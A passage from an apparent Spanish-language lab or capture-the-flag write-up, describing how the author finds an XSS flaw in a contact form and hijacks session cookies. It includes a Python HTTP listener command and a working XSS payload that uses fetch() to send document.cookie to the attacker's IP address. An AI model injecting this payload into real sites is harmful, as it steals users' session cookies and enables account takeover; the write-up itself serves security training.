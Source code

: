 ![](assets/img/thl-writeup-elcliente/elcliente1_3.png)

---
## Vulnerability Exploitation

Al realizar pruebas en el formulario de contacto, detecto una vulnerabilidad XSS, lo que me permite ejecutar un ataque de cookie hijacking.

* Para capturar las cookies de sesión, inicio un servidor HTTP en mi máquina atacante.

```terminal
/home/kali/Documents/thl/elcliente:-$ python -m http.server 8080
	Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

* Luego, inyecto el siguiente payload XSS en el formulario.

```js
<img src="" onerror="fetch(`http://192.168.0.99/?cookie=${document.cookie}`);"/>
```

